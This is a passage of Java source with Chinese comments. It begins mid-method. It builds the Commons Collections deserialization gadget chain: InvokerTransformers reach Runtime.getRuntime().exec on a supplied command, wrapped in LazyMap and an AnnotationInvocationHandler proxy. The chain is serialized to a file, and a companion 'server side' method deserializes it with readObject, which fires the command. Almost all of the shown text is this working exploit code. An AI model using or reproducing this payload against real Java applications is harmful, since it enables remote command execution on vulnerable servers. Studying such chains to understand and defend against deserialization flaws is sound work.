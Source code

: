 ```java
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                // new Class[0]为占位符
                new InvokerTransformer(
                        "getMethod",new Class[]{String.class, Class[].class},new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",new Class[]{Object.class, Object[].class},new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec", new Class[]{String.class}, new Object[]{cmd}
                )
        };
        // 创建虚假的调用链
        Transformer[] fakeTransformers = new Transformer[]{new ConstantTransformer(1)};
        ChainedTransformer chainedTransformer = new ChainedTransformer(fakeTransformers);

        Map innerMap = new HashMap<>();
        Map outerMap = LazyMap.decorate(innerMap, chainedTransformer);
        // 获取AnnotationInvocationHandler类对象
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        // 获取AnnotationInvocationHandler类的构造方法
        Constructor constructor = cls.getDeclaredConstructor(Class.class, Map.class);
        // 设置方法访问权限
        constructor.setAccessible(true);
        InvocationHandler mapHandler = (InvocationHandler) constructor.newInstance(Override.class, outerMap);
        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, mapHandler);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(Override.class, proxyMap);
        // 将真正的利用链数组设置到ChainedTransformer里面的iTransformers字段值
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(chainedTransformer, transformers);
        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        // 创建并实例化对象输出流
        ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
        out.writeObject(handler);
    }

    /*
     * 服务端
     *  */
    public void unserialize() throws Exception{
        // 创建并实例化文件输入流
        FileInputStream fileInputStream = new FileInputStream("1.txt");
        // 创建并实例化对象输入流
        ObjectInputStream in = new ObjectInputStream(fileInputStream);
        in.readObject();
    }
}
```

